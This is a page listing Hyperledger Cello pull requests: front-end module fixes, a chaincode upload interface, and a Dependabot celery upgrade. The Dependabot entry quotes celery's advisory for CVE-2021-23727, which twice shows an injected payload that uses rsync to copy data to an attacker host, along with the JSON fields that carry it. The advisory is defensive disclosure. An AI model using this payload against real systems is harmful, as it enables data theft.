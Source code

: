 ```yaml
---
layout: default
title: cello
parent: Hyperledger
grand_parent: Pull Requests
has_children: false
permalink: /pull-requests/hyperledger/cello
---
```


# cello <span class="fs-3 right-align">[GitHub](https://github.com/hyperledger/cello){: .btn .mr-4 }</span>


<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/376" class=".btn">#376</a>
            </td>
            <td>
                <b>
                    [#issue-374]network create failed: The front-end parameters are incon…
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                …sistent with the back-end parameters

front parames: consensus, db,name,type,version
but backend needs: name, consensus,database

Close #374 
Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 09:07:19 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/375" class=".btn">#375</a>
            </td>
            <td>
                <b>
                    [#issue-373]Modify front-end channel module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                1.Modify front end channel list page

2.Modify the response judgment to create channel request

Close #373 

Signed-off-by: fengyang_sy fengyang.09186@h3c.com
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:40:59 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/371" class=".btn">#371</a>
            </td>
            <td>
                <b>
                    [#issue-no]Modify front-end login module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                Modify the front-end code according to the response information of the new login interface and the verification token interface

Close #370 

Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>

            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:19:01 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/369" class=".btn">#369</a>
            </td>
            <td>
                <b>
                    [#issue-368] chaincode files upload
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                The interface of chain code upload is added. Temporarily save the chain code in the / opt / chaincode / {MD5} directory. In the future, consider making the package function in an interface?

and modified dashboard dockerfile of base image node version from 14.2.0 to 14.13.1 , to resolve the dashboard build error: 
error strip-css-comments@5.0.0: The engine "node" is incompatible with this module. Expected version "^12.20.0 || ^14.13.1 || >=16.0.0". Got "14.2.0"
error Found incompatible module.


Close #368

Signed-off-by: tianxuanhong1 <523713078@qq.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 00:55:07 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/367" class=".btn">#367</a>
            </td>
            <td>
                <b>
                    Bump celery from 4.2.1 to 5.2.2 in /src/api-engine
                </b>
            </td>
        </tr>
        <tr>
            <td>
                <span class="chip">Dependencies</span><span class="chip">python</span>
            </td>
            <td>
                Bumps [celery](https://github.com/celery/celery) from 4.2.1 to 5.2.2.
<details>
<summary>Release notes</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/releases">celery's releases</a>.</em></p>
<blockquote>
<h2>5.2.2</h2>
<p>Release date: 2021-12-26 16:30 P.M UTC+2:00</p>
<p>Release by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security
vulnerability).</p>
<blockquote>
<p>When a task fails, the failure information is serialized in the
backend. In some cases, the exception class is only importable
from the consumer's code base. In this case, we reconstruct the
exception class so that we can re-raise the error on the process
which queried the task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>. If
the recreated exception type isn't an exception, this is a
security issue. Without the condition included in this patch, an
attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code> by
setting the task's result to a failure in the result backend with
the os, the system function as the exception type and the payload
<code>rsync /data attacker@192.168.56.100:~/data</code> as the exception
arguments like so:</p>
<pre lang="python"><code>{
      &quot;exc_module&quot;: &quot;os&quot;,
      'exc_type': &quot;system&quot;,
      &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
}
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited
if the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result. The attacker would also have to
gain access to the result backend. The severity of this security
vulnerability is low, but we still recommend upgrading.</p>
</blockquote>
</li>
</ul>
<h2>v5.2.1</h2>
<p>Release date: 2021-11-16 8.55 P.M UTC+6:00</p>
<p>Release by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
<li>Change pytz&gt;dev to a PEP 440 compliant pytz&gt;0.dev.0.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Changelog</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/blob/master/Changelog.rst">celery's changelog</a>.</em></p>
<blockquote>
<h1>5.2.2</h1>
<p>:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security vulnerability).</p>
<p>When a task fails, the failure information is serialized in the backend.
In some cases, the exception class is only importable from the
consumer's code base. In this case, we reconstruct the exception class
so that we can re-raise the error on the process which queried the
task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>.
If the recreated exception type isn't an exception, this is a security issue.
Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code>
by setting the task's result to a failure in the result backend with the os,
the system function as the exception type and the payload <code>rsync /data attacker@192.168.56.100:~/data</code> as the exception arguments like so:</p>
<p>.. code-block:: python</p>
<pre><code>  {
        &quot;exc_module&quot;: &quot;os&quot;,
        'exc_type': &quot;system&quot;,
        &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
  }
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited if
the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result.
The attacker would also have to gain access to the result backend.
The severity of this security vulnerability is low, but we still
recommend upgrading.</p>
</li>
</ul>
<p>.. _version-5.2.1:</p>
<h1>5.2.1</h1>
<p>:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Commits</summary>
<ul>
<li><a href="https://github.com/celery/celery/commit/b21c13d234dd6d6c197436374ab1bb5db4be62c7"><code>b21c13d</code></a> Bump version: 5.2.1 → 5.2.2</li>
<li><a href="https://github.com/celery/celery/commit/a60b4867f4bd4efa4b5a2834fcf3f757740b1b8f"><code>a60b486</code></a> Add changelog for 5.2.2.</li>
<li><a href="https://github.com/celery/celery/commit/3e5d630f478518eb775c05ba87b29024400fbe68"><code>3e5d630</code></a> Fix changelog formatting.</li>
<li><a href="https://github.com/celery/celery/commit/1f7ad7e6df1e02039b6ab9eec617d283598cad6b"><code>1f7ad7e</code></a> Fix CVE-2021-23727 (Stored Command Injection securtiy vulnerability).</li>
<li><a href="https://github.com/celery/celery/commit/2d8dbc2a8087bbb60590465031ebd5138b8eb359"><code>2d8dbc2</code></a> Update configuration.rst</li>
<li><a href="https://github.com/celery/celery/commit/9596abad9060323d85d3945d8637b3cafadfefa2"><code>9596aba</code></a> Fix typo in documentation</li>
<li><a href="https://github.com/celery/celery/commit/639ad83239a1f9cfc58ee9852a1f107f96d3c1a1"><code>639ad83</code></a> update doc to reflect Celery 5.2.x (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7153">#7153</a>)</li>
<li><a href="https://github.com/celery/celery/commit/d32356c0e46eefecd164c55899f532c2fed2df57"><code>d32356c</code></a> Bump version: 5.2.0 → 5.2.1</li>
<li><a href="https://github.com/celery/celery/commit/6842a786eeeb2d0f1fcd66408b72924b39e07836"><code>6842a78</code></a> Merge branch 'master' of <a href="https://github.com/celery/celery">https://github.com/celery/celery</a></li>
<li><a href="https://github.com/celery/celery/commit/4c92cb745f658382a4eb4b94ba7938d119168165"><code>4c92cb7</code></a> changelog for v5.2.1</li>
<li>Additional commits viewable in <a href="https://github.com/celery/celery/compare/v4.2.1...v5.2.2">compare view</a></li>
</ul>
</details>
<br />


[![Dependabot compatibility score](https://dependabot-badges.githubapp.com/badges/compatibility_score?dependency-name=celery&package-manager=pip&previous-version=4.2.1&new-version=5.2.2)](https://docs.github.com/en/github/managing-security-vulnerabilities/about-dependabot-security-updates#about-compatibility-scores)

Dependabot will resolve any conflicts with this PR as long as you don't alter it yourself. You can also trigger a rebase manually by commenting `@dependabot rebase`.

[//]: # (dependabot-automerge-start)
[//]: # (dependabot-automerge-end)

---

<details>
<summary>Dependabot commands and options</summary>
<br />

You can trigger Dependabot actions by commenting on this PR:
- `@dependabot rebase` will rebase this PR
- `@dependabot recreate` will recreate this PR, overwriting any edits that have been made to it
- `@dependabot merge` will merge this PR after your CI passes on it
- `@dependabot squash and merge` will squash and merge this PR after your CI passes on it
- `@dependabot cancel merge` will cancel a previously requested merge and block automerging
- `@dependabot reopen` will reopen this PR if it is closed
- `@dependabot close` will close this PR and stop Dependabot recreating it. You can achieve the same result by closing it manually
- `@dependabot ignore this major version` will close this PR and stop Dependabot creating any more for this major version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this minor version` will close this PR and stop Dependabot creating any more for this minor version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this dependency` will close this PR and stop Dependabot creating any more for this dependency (unless you reopen the PR or upgrade to it yourself)
- `@dependabot use these labels` will set the current labels as the default for future PRs for this repo and language
- `@dependabot use these reviewers` will set the current reviewers as the default for future PRs for this repo and language
- `@dependabot use these assignees` will set the current assignees as the default for future PRs for this repo and language
- `@dependabot use this milestone` will set the current milestone as the default for future PRs for this repo and language

You can disable automated security fix PRs for this repo from the [Security Alerts page](https://github.com/hyperledger/cello/network/alerts).

</details>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-06 22:30:19 +0000 UTC
    </div>
</div>

